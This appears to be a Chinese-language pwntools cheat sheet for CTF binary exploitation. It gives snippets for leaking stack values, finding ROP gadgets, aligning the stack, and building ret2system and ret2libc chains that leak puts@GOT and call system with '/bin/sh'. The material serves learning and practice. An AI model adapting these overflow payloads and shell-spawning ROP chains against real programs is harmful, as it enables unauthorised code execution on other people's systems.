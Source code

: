 ## 关闭 BytesWarning

```python
import warnings
warnings.filterwarnings("ignore", category=BytesWarning)
```

## 各函数的细节区别 scanf 用 sendline, read 用 send

| 函数名 | pwn 工具 | 输出的区别     |
| ------ | -------- | -------------- |
| scanf  | sendline |                |
| read   | send     |                |
| puts   |          | 发送后追加`\n` |
| printf |          | 不追加`\n`     |

## snippets

```py
s = process('./pwn1', env={"LD_PRELOAD": "./libc-2.23.so"}) # 自定义预加载libc.so
elf = ELF('./pwn', checksec=False)
print(hex(elf.bss(0x500))) # bss段+0x500的地址

libc.sym['system']
libc.sym.system
```
## 溢出读取 ebp 值

sendline 发送时\n 会占一个字符 0x4 大小发 `sendline 'a'*4` 会发 5 个字符引发问题。

举例

```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，read时用send,不用sendline
// 如果是scanf要用 sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```

### 填充指定大小

```py
'a'.ljust(268, ' ')
```

## 使用默认的 libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
leave_ret = ROP(elf).find_gadget(['leave', 'ret'])[0]
print(hex(pop_rdi))
```

## snippets

```python
ss = lambda data: s.send(str(data))
sa = lambda delim, data: s.sendafter(str(delim), str(data))
sl = lambda data: s.sendline(data)
sls = lambda data: s.sendline(str(data))
sla = lambda delim, data: s.sendlineafter(str(delim), str(data))
r = lambda num: s.recv(num)
ru = lambda delims, drop=True: s.recvuntil(delims, drop)
itr = lambda: s.interactive()
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
l64 = lambda: u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
l32 = lambda: u32(p.recvuntil("\xf7")[-4:].ljust(4, b"\x00"))

bss_addr = elf.bss()
```

# Stack

## 栈对齐

```python
rop = ROP(elf)
rop.raw(b'a' * (64 + 8)) # 填充 64 + fake_rbp(8) 个字节的数据到缓冲区中
rop.raw(flat(ret)) # 方式1. 加个ret即可
rop.call(system, [bin_sh]) # 栈对齐

# 方式2 不加ret 加参数 rop.call(system, [bin_sh, '0']) # 栈对齐

# payload = flat(junk, ret, pop_rdi, binsh, system, 0) # junk后面加上 ret 来平栈
```

## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```

# rop

见 pwn_01_stack_03_ret2libc_x64_00_ctfhub_bypwntool_rop.py

```sh
rop = ROP('./ret2libc') # x64
rop.raw(b'A' * (144 + 8))  # 填充144 + fake_rbp(8) 个字节的数据到缓冲区中
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# rop.call 会自动 pop rdi, ret来传入参数
rop.call(puts_plt, [puts_got]) # puts_plt(puts_got, arg2, arg3, arg4, ...)
rop.call('main')  # 自动构建下一步的ret调用main函数，使程序重新运行
p.sendline(rop.chain())

# 再发送时要重新构建 rop
rop = ROP('./ret2libc')
rop.raw(b'A' * (144 + 8))
rop.call(system_addr, [binsh_addr])
```


rop2
```python
context.clear(arch = "i386", kernel = 'amd64')
assembly = 'int 0x80; ret; add esp, 0x10; ret; pop eax; ret'
e = ELF.from_assembly(assembly)
e.symbols['funcname'] = e.entry + 0x1234
r = ROP(e)
r.funcname(1, 2)
r.funcname(3)
r.execve(4, 5, 6)
print(r.dump())
```